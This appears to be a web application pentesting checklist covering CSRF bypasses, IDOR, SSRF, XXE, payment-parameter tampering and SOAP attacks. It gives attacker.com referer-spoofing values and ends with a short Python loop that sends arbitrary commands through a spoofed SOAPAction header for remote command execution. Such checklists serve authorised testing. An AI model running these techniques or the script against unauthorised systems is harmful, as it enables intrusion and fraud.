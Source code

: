 #### Access Control 

- [ ] use normal account and go through functionalities, capture requests using Burp.
- [ ] check for json response that contains changeable ids or some thing like that. eg: if `user_id=1` is present in response try to add this in another request with modification  within json data in repeater.
#### XSS(cross site scripting)
- [ ] look for opportunities to submit user input (search box, parameters etc).

- [ ] look for places where input get stored like comment fields, user profile etc.

- [ ] look for dropdown menus, if they exist use proxy and see if we can insert payload from there.

- [ ] if frame work is angular check ng-app on source code, if so search ng-app xss payload

- [ ] 

#### Open Redirect

- [ ] search for the parameters used for redirects, ex: `next, u, n, forward, RelayState `etc.
- [ ] use google dorking to find specific parameters ex: `inurl:=http site:example.com` , `inurl:redir site:example.com`
- [ ] Check for javascript attributes on `<a>` tags. 

#### CSRF

- [ ] look for state changing requests like activities that modify user settings, sending tweets etc.

- [ ] Go through each endpoints and access every functionality to find state changing requests and sort them to test later example:
- `Change password: email.example.com/password_change`
- `POST request`
- `Request parameters: new_password`

- [ ] look through these filtered endpoints and see if any have `csrf` protections like, `csrf token` , `same site flag` in cookie etc

- [ ] See if changing the http method bypass` csrf `protection. example, change post method to get and use the same parameter in body to url with our own value.

- [ ] Try changing the `csrf` token to blank or deleting the `csrf token parameter` itself. 

- [ ] Now create a test account on the target and use `csrf token` obtained for that account to impersonate victim.

- [ ] To bypass `double-submit csrf tokens` , most probably the value in the post parameter request body and cookie only needs to be the same. ie, server may not be validating the validity of the token.

- [ ] The application might be validating the `referrer header` to verify that, the request came from an allowed list of domains. therefore removing referrer header might help. also try any allowed list of domain in referrer header. ex: `Referer: example.com.attacker.com` , `Referer: attacker.com/example.com`

- [ ] Also try to find any `XSS` that can be used to steal `csrf tokens`.

- [ ] Try to make `csrf` more impactful by, proving a chance of sensitive information leak or something like that.

- [ ] we can make self XSS stored XSS using `csrf` by impersonating as the user and accessing and storing payload on vulnerable element.

#### IDOR

- [ ] Do a source code review to find which all direct object references are protected by access control.

- [ ] create two different accounts for each level of privilege, eg: two user accounts , two admin accounts and so on. This will help in testing on different levels.

- [ ]  look for any object references. ex:file names, user id etc, to test.

- [ ] if the reference is a random long number, then look if it is encoded and try to decode.

- [ ] look for object reference in comment sections and try to use it.


#### SQLi

- [ ] insert an apostrophe wherever possible and look for anomalies, if any changes occur we can confirm that SQLi has scope.
- [ ] Instead of trying each and every payload use `SECLIST`'s sql injection payload and brute force it use burp.

#### SSRF

- [ ] Review the application's source code and check whether if the application validates every urls the user is giving to them.

- [ ] Look for features where the application needs fetch external resources.

- [ ] Look for `webhook urls`.

- [ ] If an endpoint is found try testing with IPv6 address that focus to local network eg: `::l` ,`fc00::`

- [ ] Confuse the server by getting your own domain name pointed to local address and enter the address in the endpoint.

- [ ] In the case of a blind SSRF, check if the server behaviour differs when you request different hosts or ports

#### XXEs

- [ ] Look for XML used endpoints.

- [ ] Try forcing the application to parse XML by changing the content type header and explicitly entering XML

- [ ] try to retrieve files with XXE refer to web security notes

- [ ] leverage `xxe` to `ssrf`

- [ ] check xml via Xinclude

- [ ] try xml via image upload eg: svg


#### Payment Gateway

- [ ] Try quantity tampering of parameters.

- [ ] Try to work http parameter pollution by passing a valid parameter multiple times.

- [ ] If there is a donation(charity) value parameter then try to bring it negative this might tamper the overall price.

- [ ] If the price and other details are send to a third party payment gateway, using post request  there is a chance to intercept the post form using proxy and modify the values.

- [ ] if the payment gateway use iframe, there might be a chance to tamper with the parameter on the iframe url.

- [ ] Try to make unencrypted request explicitly if the payment gateway uses encrypted communication.(This will be successful unless it is specifically configured to reject them)

#### Command injection
- [ ] First look for functions that can execute commands on back-end
- [ ] Try URL/system/{command} 


#### Authentication
- [ ] Look for login endpoints( based on tech stack too ), separate them into:
 => Authenticated
 => Unauthenticated 
 => Default credentials 

#### Comment feature
- [ ] check for comment functions on web app and sort them in mind map
- [ ] check if the comment have any id. If so, try change it and see if any IDOR is present  or delete comments and look if deleted comments are still in response(usually json).



#### Web Service attack
- [ ] Look for WSDL file on the web app
- [ ] Try  `curl http://<TARGET IP>:3002/wsdl?wsdl`
- [ ] Try SOAPAction spoofing
- [ ] create python script to do this, here in this 

ex: I am using command injection.
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'

    print(requests.post("http://<Target address>/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

